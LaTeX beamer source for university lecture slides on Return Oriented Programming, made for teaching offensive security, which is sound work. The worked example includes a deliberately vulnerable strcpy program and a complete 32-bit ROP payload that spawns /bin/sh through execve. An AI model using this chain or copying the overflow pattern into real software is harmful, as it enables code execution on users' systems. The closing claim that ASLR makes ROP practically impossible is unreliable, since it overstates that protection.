\documentclass[11pt]{beamer}
\usetheme{Frankfurt}
\usecolortheme{crane}
\usepackage[utf8]{inputenc}
\usepackage[english]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{blt}
\usepackage{listings}
\usepackage{fancyvrb}
%\usepackage{circuitikz}
\author{Maximilian Heim}
\title{Return Oriented Programming}
%\setbeamercovered{transparent} 
%\setbeamertemplate{navigation symbols}{} 
\logo{
\includegraphics[width=0.1\textwidth]{logo.png}}
\institute{University Albstadt-Sigmaringen} 
\date{\today} 
\subject{Offensive Security Methods}
\begin{document}

\begin{frame}
\titlepage
\end{frame}

\begin{frame}
\tableofcontents
\end{frame}

\section{Introduction}
\begin{frame}
    \frametitle{What is Return Oriented Programming?}
    \begin{itemize}
    \item A type attack that exploits buffer overruns
    \item Published by Hovav Shacham in 2007
    \item Arised as a technique to counter security mechanisms (NX)
    \item Big binary $\rightarrow$ ROP is turing complete
    \item Many authors refer to ret-to-libc/library as ROP, according to the founder of this technique it has to be differentiated and ROP describes chaining of small code segments
    \end{itemize}
\end{frame}

\section{How does it work?}
\subsection{Overview}
\begin{frame}
    \frametitle{Overview}
    \begin{enumerate}
        \item Search the binary for gadgets: return (0xC3) bytes that contain useful instructions before
        \item Generate a list of these gadgets, called ROP chain
        \item Generate a payload with the addresses of these gadgets
        \item Insert payload via buffer overrun
    \end{enumerate}
\end{frame}
\subsection{ROP gadgets}
\begin{frame}
    \frametitle{ROP gadgets}
    \begin{itemize}
        \item Gadgets are machine instructions that end on a return
        \item Tools: ROPgadget (\url{https://github.com/JonathanSalwan/ROPgadget}), ropper (\url{https://github.com/sashs/Ropper}), Radare2, pwntools....
    \end{itemize}
    \begin{figure}[h]
        \caption{ROP Gadgets}
        \centering
        
\includegraphics[width=0.8\textwidth]{gadget.png}\label{gadget}
    \end{figure}

\end{frame}

\begin{frame}[fragile]
    \frametitle{Useful gadgets: Write to register}
    \begin{itemize}
        \item Especially useful are pop instructions
    \end{itemize}
    \begin{Verbatim}
        POP eax; ret;
    \end{Verbatim}
    \begin{itemize}
        \item These allow us to write arbitrary values into registers
        \item However, sometimes we do not find a pop into our desired register (e.g. r14), here we can improvise and use something like
    \end{itemize}
    \begin{Verbatim}
        XOR r14, r14; pop r12; XOR r14, r12; ret;
    \end{Verbatim}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Useful gadgets: Load/Read from memory}
    \begin{itemize}
        \item Load instructions are also really useful
    \end{itemize}
    \begin{Verbatim}
        mov [rax], rxc; ret;
    \end{Verbatim}
    \begin{itemize}
        \item allows us to write into memory
    \end{itemize}
    \begin{Verbatim}
        mov rax, [rxc]; ret;
    \end{Verbatim}
    \begin{itemize}
        \item allows us to read a value from memory into a register
        \item Combined with pop this is very powerful
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Useful gadgets: Systemcalls, arithmetics}
    \begin{itemize}
        \item add, sub, div, xor, mul, div\ldots allow us to manipulate register contents.
        \item Since programs run in userspace we have limited privileges, if we can find systemcalls we can, in combination with the arithmetic operations and pop instructions call arbitrary system calls
    \end{itemize}
    \begin{Verbatim}
        int 0x80; ret;
    \end{Verbatim}
\end{frame}
\subsection{ROP chain}
\begin{frame}
    \frametitle{ROP chain with parameters}
    \begin{figure}[h]
        \caption{ROP Chain with parameter}
        \centering
        
\includegraphics[width=0.18\textwidth]{gadgetstack.png}\label{gadget2}
    \end{figure}
\end{frame}

\section{Example}
\begin{frame}[fragile]
    \frametitle{Working example: Target Program and compilation}
    \begin{itemize}
        \item We compile the following program with stack protectors turned off
    \end{itemize}
    %\begin{lstlisting}[breaklines, style=commandline]
%clang -o vuln vuln.c -m32 -fno-stack-protector  -Wl,-z,relro,-z,now,-z,noexecstack -static
    %\end{lstlisting}
    \begin{lstlisting}[style=code, language=c]
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buffer[8] = {0};
    if(argc != 2)
    {
        printf("A single argument is required.\n");
        return 1;
    }
    strcpy(buffer, argv[1]);
    return 0;
}
    \end{lstlisting}
\end{frame}
\begin{frame}
    \frametitle{Working example: Spawning a shell}
    \begin{itemize}
        \item Using ropper we can find our desired gadgets
        \item Lets say we want to execute a shell using execve, for that we need to accomplish the following goals
        \begin{enumerate}
            \item write /bin/sh into memory (at the data segment)
            \item init systemcall number (11)
            \item init systemcall argument (address of /bin//sh)
            \item call systemcall
        \end{enumerate}
    \end{itemize}
\end{frame}
\begin{frame}[fragile]
    \frametitle{Working example: Putting it together, writing /bin}
    \begin{lstlisting}[style=code, language=python]
from struct import pack

p = 'AAAABBBBCCCC'
p += pack('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += pack('<I', 0x080f0f6c) # @ .data
p += pack('<I', 0x00000000) # @ NULL
p += pack('<I', 0x080b526a) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Working example: Putting it together, writing //sh}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += pack('<I', 0x080f0f70) # @ .data + 4
p += pack('<I', 0x00000000) # @ NULL
p += pack('<I', 0x080b526a) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Working example: Putting it together, init params}
    \begin{lstlisting}[style=code, language=python]
# write null byte after /bin/sh
p += pack('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += pack('<I', 0x080f0f74) # @ .data + 8
p += pack('<I', 0x00000000) # @ NULL
p += pack('<I', 0x080506c0) # xor eax, eax ; ret
p += pack('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
# write address of /bin/sh to ebx
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080f0f6c) # @ .data
# arguments and environment to ecx,edx
p += pack('<I', 0x0805e64f) # pop ecx; add al, 0xf6; ret;
p += pack('<I', 0x080f0f74) # @ .data + 8
p += pack('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += pack('<I', 0x080f0f74) # @ .data + 8
p += pack('<I', 0x00000000) # @ NULL
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Working example: Putting it together, init params, syscall}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', 0x080506c0) # xor eax, eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08049b2a) # int 0x80
print p
    \end{lstlisting}
\end{frame}
\section{Conclusion}
\begin{frame}
    \frametitle{Conclusion}
    \begin{itemize}
        \item Return Oriented Programming is a very powerful technique
        \item It is able to execute any system call if there are enough rop gadgets
        \item There are many tools to simplify the process of finding ROP gadgets and generatating ROP payloads
        \item Modern desktops use aslr and other protection mechanisms $\rightarrow$ practically impossible to use ROP
    \end{itemize}
\end{frame}

\section{Sources}
\begin{frame}
    \frametitle{Sources}
    \url{https://trustfoundry.net/basic-rop-techniques-and-tricks/}
    \url{http://gauss.ececs.uc.edu/Courses/c6056/pdf/rop.pdf}
    \url{https://www.proggen.org/doku.php?id=security:memory-corruption:exploitation:rop}
    \url{https://shell-storm.org/talks/ROP_course_lecture_jonathan_salwan_2014.pdf}
\end{frame}


\end{document}